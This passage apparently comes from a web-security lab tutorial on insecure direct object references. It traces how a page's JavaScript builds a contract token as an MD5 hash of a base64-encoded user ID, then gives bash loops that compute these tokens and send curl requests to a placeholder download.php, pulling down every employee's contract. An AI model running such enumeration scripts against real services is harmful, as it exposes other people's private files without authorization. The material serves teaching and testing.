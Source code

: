 This function appears to be sending a POST request with the contract parameter, which is what we saw above. The value it is sending is an md5 hash using the CryptoJS library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is btoa(uid), which is the base64 encoded string of the uid variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling downloadContract('1'). **So, the final value being used in the POST request is the base64 encoded string of 1, which was then md5 hashed**.

\
\
Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities.

We can start by calculating the hash for each of the first ten employees using the same previous command while using **tr -d** to remove the **trailing - characters**, as follows:

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a POST request on download.php with each of the above hashes as the contract value, which should give us our final script:

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```


Another script example encoding in URL-encode the query parameter:
```bash
#!/bin/bash
url="http://IP:PORT/download.php"

for i in {1..20}; do
        for hash in $(echo -n $i | base64 -w 0);do
		echo $hash
                curl -sOJ -G $url --data-urlencode "contract=$hash"
        done
done

```
